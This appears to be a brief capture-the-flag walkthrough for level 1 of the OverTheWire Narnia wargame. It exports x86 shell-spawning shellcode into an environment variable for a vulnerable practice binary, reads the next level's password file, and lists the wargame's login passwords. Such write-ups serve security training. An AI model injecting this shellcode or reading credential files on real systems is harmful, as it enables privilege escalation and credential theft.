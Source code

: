 ### Narnia Level 1

[narnia1](http://overthewire.org/wargames/narnia/narnia1.html)

**Username**: *narnia1*

**Password**: *efeidiedae*


### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
cat /etc/narnia_pass/narnia2
```


#### Credentials for Level 2

**Username**: *narnia2*

**Password**: *nairiepecu*

